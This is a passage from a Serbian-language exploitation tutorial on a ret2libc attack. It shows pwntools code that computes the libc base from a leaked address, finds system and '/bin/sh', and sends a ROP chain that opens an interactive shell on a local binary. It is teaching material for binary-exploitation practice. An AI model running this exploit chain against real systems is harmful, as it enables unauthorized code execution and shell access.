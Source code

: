 Kopirajte libc sa `libs/libc6_2.23-0ubuntu10_amd64/libc-2.23.so` u naš radni direktorijum.

### 3.3- Druge funkcije za procuriti

```python
puts
printf
__libc_start_main
read
gets
```

## 4- Pronalaženje zasnovane adrese libc-a i eksploatacija

U ovom trenutku trebalo bi da znamo koja se libc biblioteka koristi. Budući da eksploatišemo lokalni binarni fajl, koristiću samo: `/lib/x86_64-linux-gnu/libc.so.6`

Dakle, na početku `template.py` promenite **libc** promenljivu u: `libc = ELF("/lib/x86_64-linux-gnu/libc.so.6") #Postavite putanju biblioteke kada je znate`

Dajući **putanju** do **libc biblioteke**, ostatak **eksploatacije će biti automatski izračunat**.

Unutar funkcije `get_addr` će biti izračunata **bazna adresa libc-a**:

```python
if libc != "":
libc.address = leak - libc.symbols[func_name] #Save libc base
log.info("libc base @ %s" % hex(libc.address))
```

{% hint style="info" %}
Imajte na umu da **konačna adresa osnovne libc biblioteke mora završiti sa 00**. Ako to nije slučaj, možda ste otkrili netačnu biblioteku.
{% endhint %}

Zatim će adresa funkcije `system` i adresa stringa _"/bin/sh"_ biti **izračunate** iz **osnovne adrese** **libc-a** i date **libc biblioteke**.

```python
BINSH = next(libc.search("/bin/sh")) - 64 #Verify with find /bin/sh
SYSTEM = libc.sym["system"]
EXIT = libc.sym["exit"]

log.info("bin/sh %s " % hex(BINSH))
log.info("system %s " % hex(SYSTEM))
```

Konačno, eksploatacija izvršenja /bin/sh će biti pripremljena poslata:

```python
rop2 = OFFSET + p64(POP_RDI) + p64(BINSH) + p64(SYSTEM) + p64(EXIT)

p.clean()
p.sendline(rop2)

#### Interact with the shell #####
p.interactive() #Interact with the conenction
```
